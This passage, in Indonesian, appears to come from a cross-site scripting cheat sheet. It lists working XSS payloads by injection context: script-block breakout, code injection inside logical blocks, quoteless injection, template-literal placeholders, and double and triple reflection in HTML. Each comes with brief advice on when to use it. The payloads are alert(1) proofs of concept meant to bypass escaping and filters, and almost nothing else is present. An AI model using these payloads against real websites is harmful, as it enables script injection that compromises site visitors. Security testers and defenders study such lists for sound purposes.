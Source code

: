 lolos dengan backslash.

    \\'-alert(1)//

> Javascript Context - Tag Injection

Gunakan saat input mendarat di mana saja dalam blok skrip.

    </script><svg onload=alert(1)>

# Advanced Xss

> Javascript Context - Code Injection in Logical Block

Gunakan muatan pertama atau kedua ketika input masuk dalam blok skrip, di dalam nilai yang dibatasi string dan

di dalam satu blok logis seperti fungsi atau kondisional (if, else, etc). Jika kutipan lolos

backslash, gunakan payload ketiga.

    '}alert(1);{'
    
    '}alert(1)%0A{'
    
    \\'}alert(1);{//

> Javascript Context - Quoteless Code Injection

Gunakan saat ada multi refleksi di baris kode JS yang sama. Muatan 1 bekerja di JS sederhana

variabel dan 2 bekerja di objek JS non-objects

     -alert(1)//\\
    
     -alert(1)}//\\

> Javascript Context - Placeholder Injection in Template Literal

Gunakan saat input masuk ke dalam string backticks (\`\`) yang dibatasi atau di mesin template.

      ${alert(1)}

> Multi Reflection in HTML Context - Double Reflection (Single Input)

Gunakan untuk memanfaatkan banyak refleksi pada halaman yang sama.

    onload=alert(1)><svg/1='
    
    '>alert(1)</script><script/1='
    
    */alert(1)</script><script>/*

> Multi Reflection in HTML Context - Triple Reflection (Single Input)

Gunakan untuk memanfaatkan banyak refleksi pada halaman yang sama.

    */alert(1)">'onload="/*<svg/1='
    
    \`-alert(1)">'onload="\`<svg/1='
    
    */</script>'>alert(1)/*<script/1='
